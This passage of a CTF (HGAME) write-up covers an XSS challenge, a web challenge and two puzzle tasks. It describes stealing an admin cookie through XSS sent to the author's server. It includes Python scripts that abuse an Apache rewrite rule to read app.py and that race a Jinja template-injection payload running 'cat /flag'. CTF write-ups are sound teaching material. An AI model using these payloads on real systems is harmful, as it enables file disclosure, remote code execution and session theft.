

So `username`=`shallot` and `password`=`888888`.



Seeing a comment box immediately made me think of XSS.



We can see that it contains our cookie. Visiting `/admin` also simulates an admin visit, so the goal of the XSS is to obtain the cookie.

Started an HTTP server on the VPS with `python3 -m http.server 11451`.

Then the XSS payload was:

`<script>document.write('')</script>`

After submitting the comment, visited `/admin`, and there was the cookie.



This is the cookie returned to the server.

Capture one of our own requests to `/flag`, replace the cookie, and we can get the flag.





> hgame{W0w_y0u_5r4_9o0d_4t_xss}

### 3.Level 38475: The Corner

> This place is called 'The Corner', like a forgotten fragment of an enormous maze.
>
> A battered message board hangs on the wall, surrounded by dim light and low echoes.
>
> They say the board is the only clue to the outside world, but it hides an unknown secret: its administrator reads the messages and decides who qualifies to leave.
>
> The entities here seem especially interested in the board. They keep leaving strange symbols or repeated words, as though performing some mysterious ritual.
>
> Perhaps these rituals can enlist the administrator's power to help you escape.

Visited `/robots.txt`.



Then visited `/app.conf`.

```txt
# Include by httpd.conf
<Directory "/usr/local/apache2/app">
    Options Indexes
    AllowOverride None
    Require all granted
</Directory>

<Files "/usr/local/apache2/app/app.py">
    Order Allow,Deny
    Deny from all
</Files>

RewriteEngine On
RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/"
RewriteRule "^/admin/(.*)$" "/$1.html?secret=todo"

ProxyPass "/app/" "http://127.0.0.1:5000/"
```

We can see that `app.py` is inaccessible.



Asked AI to put together a script to access `app.py`.

```python
import requests
import time

TARGET = "http://146.56.227.88:30781"
FILE_PATH = "/admin/usr/local/apache2/app/app.py%3f"
USER_AGENT = "L1nk/Chrome"

def exploit():
    url = f"{TARGET}{FILE_PATH}"
    headers = {
        "User-Agent": USER_AGENT
    }
    try:
        r = requests.get(url, headers=headers, timeout=10)
        return r.text
    except Exception as e:
        print("Exploit error:", e)
    return ""

if __name__ == '__main__':
    print("开始尝试读取 app.py")
    attempt_count = 0
    while True:
        attempt_count += 1
        result = exploit()
        if result:
            print("成功读取 app.py 内容：")
            print(result)
            break
        time.sleep(0.1)
        
        
'''
from flask import Flask, request, render_template, render_template_string, redirect
import os
import templates

app = Flask(__name__)
pwd = os.path.dirname(__file__)
show_msg = templates.show_msg

def readmsg():
    filename = pwd + "/tmp/message.txt"
    if os.path.exists(filename):
        f = open(filename, 'r')
        message = f.read()
        f.close()
        return message
    else:
        return 'No message now.'

@app.route('/index', methods=['GET'])
def index():
    status = request.args.get('status')
    if status is None:
        status = ''
    return render_template("index.html", status=status)

@app.route('/send', methods=['POST'])
def write_message():
    filename = pwd + "/tmp/message.txt"
    message = request.form['message']
    f = open(filename, 'w')
    f.write(message) 
    f.close()
    return redirect('index?status=Send successfully!!')
    
@app.route('/read', methods=['GET'])
def read_message():
    if "{" not in readmsg():
        show = show_msg.replace("{{message}}", readmsg())
        return render_template_string(show)
    return 'waf!!'

if __name__ == '__main__':
    app.run(host = '0.0.0.0', port = 5000)
'''
```

exp

```python
import requests
import time
import threading

TARGET = "http://146.56.227.88:30781/app"
PAYLOAD = "{{ config.__class__.__init__.__globals__['os'].popen('cat /flag').read() }}"

session = requests.Session()

def send_message(message):
    try:
        return session.post(f"{TARGET}/send", data={"message": message}, timeout=10).status_code
    except Exception as e:
        print("Error:", e)
    return None

def trigger_read():
    try:
        return session.get(f"{TARGET}/read", timeout=10).text
    except Exception as e:
        print("Error triggering read:", e)
    return ""

def attempt():
    send_message("114514")
    threading.Timer(0.01, send_message, args=(PAYLOAD,)).start()
    time.sleep(0.001)
    return trigger_read()

if __name__ == '__main__':
    attempt_count = 0
    while True:
        attempt_count += 1
        result = attempt()
        if "hgame" in result:
            print("成功读取 flag 内容：")
            print(result)
            break
        if attempt_count % 10 == 0:
            print(f"尝试次数：{attempt_count}, 最近返回内容：{result}")
        time.sleep(0.1)
# There is some randomness involved; this really is just hammering away at it
```



> hgame{y0u_fInd_the-K3Y_To-RrR@cE-0UuUUt2ce20df}

## Week 2

### 1.Computer cleaner plus

> Xiaoming discovered the same problem on another virtual machine. He followed your steps to clean up his computer, but after a while found that a hacker was still controlling it. Please help him investigate the cause again.
>
> The flag is: hgame{可执行恶意文件名称} (malicious executable filename, without the extension).



> hgame{B4ck_D0_oR}

### 2.Invest in hints

No sacrifice, no gain.

> Q&A：
>
> - 'Which hint does “Hint #*x*” refer to here? (Replace *x* with your favorite nonnegative integer.)' -- That's for you to discover.
> - 'Could there be an intermediate state with a negative return?' -- No sacrifice, no gain. But we guarantee that the return from solving the challenge is nonnegative.
> Solving this challenge does not require brute-force enumeration. Please ensure that you do not use brute-force enumeration while solving it.
> This challenge has no first-blood bonuses. Any automatically calculated blood bonuses will be deducted by the staff.

Each Hint contains the following positions in the order of the original string (the units digit represents the first character of the original string).

````txt
Hint 51: 00001100101001111010000000010010001110100000000000000000001101111000100
Hint 52: 01101000111011000000000101000100001001101100000000010010001110011000000
Hint 53: 10100100000001011000110001001101000010001101011101010110001000000000000
Hint 54: 00001010000010010000100110000100000010000100101100111000001011100000111
Hint 55: 01110010100100100000000000000000011010110011000001111000101100000001000
Hint 56: 01110100001001000010010111101111011101001000100010011001000010011100000
Hint 57: 10000101010000000011000001100101001010110100000110110010001000100011000
Hint 58: 00000111101000001001000001100100100000110000110000101000001101110100000
Hint 59: 01001101001001000000001001001110100000000000001011000100010000101010101
Hint 60: 10010010100110011011100010011001100100100001110010010101001000100001111
Hint 61: 01001000100011000001000000000011010001110001000000101100001000100010100
Hint 62: 00101000010000111000101110000010001000000001000111100010001101001001101
Hint 63: 01000010111010000000010100001010001011000100100010000000000000001000000
Hint 64: 01110110110011000000010000011000000010000000000000111000000010000010001
Hint 65: 01100000000011000110000000010001000000000011001100000110010001011010000
Hint 66: 01110011001000101001100001011000011010000001100010100000011010000001000
Hint 67: 00111011000011000000100100101000100100101000010001100111001000100001000
Hint 68: 01000110010101011100110101110010001111100011010000000101010100000010010
Hint 69: 11111010111000110100010000000010001101111010011010001100000011000001001
Hint 70: 00000010110101100100100011001011011001100000100010011111000011000001101
Hint 71: 00001100001110101000010111001100011100100010011100001010000000001000010
Hint 72: 01100000000011001001011100000101000110111000101100010101111000001010100
Hint 73: 00001000001010010000001101010110110000110111011011100101011110010110000
Hint 74: 01010010100000000111011110001000010110100001000111001101010100000010000
Hint 75: 11010000011000010100001010000111011010100001111010100100100000111110110
````

Bought hint 5 on a whim.

`01110010100100100000000000000000011010110011000001111000101100000001000`

`mMk3ACi7SCWyAq3C5wda42`

I spent ages staring at this sentence: `Each Hint contains the following positions in the order of the original string (the units digit represents the first character of the original string).`

Noticed that the number of characters in a hint equals the number of 1s, so I guessed they corresponded one to one.

Finally, since the fourth character of hgame is m, and the fourth bit of the reversed binary string is 1, it should be straightforward in theory.

Then I worked out that, with hint 5 already available, I only needed to buy hints 6, 7, 10, 19, and 23.

My scratch paper is shown below.



> hgame{Aug5YMkf3o99ACi7Lr0gQSCKaWy2Azq3ti691DhNlCbxu8rR2mCAD5LEwLdmHa42}
